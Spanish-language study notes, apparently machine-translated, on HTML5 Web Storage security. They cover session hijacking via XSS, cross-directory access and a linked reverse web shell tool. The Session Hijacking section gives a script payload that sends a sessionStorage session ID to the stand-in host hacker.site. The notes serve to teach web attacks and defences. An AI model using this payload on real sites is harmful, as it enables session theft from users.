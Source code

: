 → https://web.archive.org/web/20150223205517/http:/www.andlabs.org/tools/sotf/sotf.html

Es un manejador de concha web inversa, se puede utilizar para secuestrar sesiones donde JavaScript se puede inyectar usando XSS o a través de la barra de direcciones de los navegadores. Hace uso de HTML5 Cross Origin Requests y puede eludir medidas de secuestro anti-sesión como cookies Http-Only y encuadernación IP de identificación de...

## Storage Attacks Scenarios

→ https://tools.ietf.org/html/rfc6265#section-6.1

### Web Storage

Su primera especificación estable HTML5 que regula dos mecanismos bien conocidos: Almacenamiento de sesiones y almacenamiento local.

Las implementaciones son similares a las cookies y también se conocen como almacenamiento de valor clave y almacenamiento DOM. Cualquier cosa se puede convertir en una cadena o serializado y almacenado:

```js
window.(localStorage|sessionStorage).setItem('name','Joao');
#         DOM properties                       Key     Value
```

* http://www.w3.org/TR/webstorage/#security-storage

> El principal problema con esta tecnología es que los desarrolladores no son conscientes de las preocupaciones de seguridad presentadas en esta especificación, que informa claramente de los riesgos de seguridad que esta característica puede introducir.

### Session Hijacking

En el caso de un ataque XSS, Web Storage es una propiedad del objeto Ventana; por lo tanto, es accesible a través del DOM y, de manera similar a las galletas, se puede comprometer.

La explotación es similar a la utilizada Para las cookies, pero la única diferencia está en la API utilizada para recuperar los valores:

```js
<script> new Image.src = "http://hacker.site/C.php?cc=" +escape(sessionStorage.getItem('sessionID'));
</script>
```

* Las cookies HTTP tienen atributos, como **HTTPOnly**, que se introdujeron para detener los fenómenos de secuestro de la sesión.
* Esta medida de seguridad, sin embargo, falta por completo para las tecnologías WebStorage, por lo que es completamente inapropiado Para almacenar tanto los identificadores de sesión como la información sensible

### Cross-Directory Attacks

Otra diferencia importante es que, a diferencia de las cookies HTTP, no hay ninguna característica para restringir el acceso por nombre, haciendo que el contenido de Almacenamiento Web esté disponible en todo el origen. Esto también puede introducir ataques cruzados.
